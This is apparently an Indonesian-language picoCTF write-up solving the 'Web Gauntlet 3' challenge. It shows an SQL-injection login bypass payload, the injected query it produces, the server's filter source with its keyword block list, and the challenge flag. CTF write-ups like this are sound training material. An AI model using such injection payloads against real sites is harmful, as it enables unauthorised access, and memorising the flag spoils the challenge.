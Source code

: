 # Web Gauntlet 3
- Link: https://play.picoctf.org/practice/challenge/128?category=1&page=4

## Tantangan
Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:32946/ Filter: http://mercury.picoctf.net:32946/filter.php

## Penyelesaian
- Buka URL http://mercury.picoctf.net:32946/ di browser

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet%203/assets/web%20gauntlet%201.JPG)

- Buka URL http://mercury.picoctf.net:32946/filter.php ditab baru untuk membuka daftar string yang di filter

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet%203/assets/web%20gauntlet%202.JPG)

- Disini kita bisa membypass login dengan username dan password sebagai berikut
```sh
username: admin
password: a' is not 'b
```

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet%203/assets/web%20gauntlet%203.JPG)

- Inputan diatas akan menghasilkan query sebagai berikut
```sh
SELECT username, password FROM users WHERE username='adm'||'in' AND password='a' is not 'b'
```
- Percobaan diatas berhasil

![alt text](https://github.com/rahardian-dwi-saputra/picoCTF-writeup/blob/main/Web%20Exploitations/Web%20Gauntlet%203/assets/web%20gauntlet%204.JPG)

- Sekarang kita reload halaman http://mercury.picoctf.net:32946/filter.php untuk mendapatkan flag. Isi dari halaman tersebut adalah sebagai berikut
```sh
<?php
session_start();

if (!isset($_SESSION["winner3"])) {
    $_SESSION["winner3"] = 0;
}
$win = $_SESSION["winner3"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner3"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner3"] = 0;
}

// picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
?>
```
- Flag
```sh
picoCTF{k3ep_1t_sh0rt_ef4a5b40aa736f5016b4554fecb568d0}
```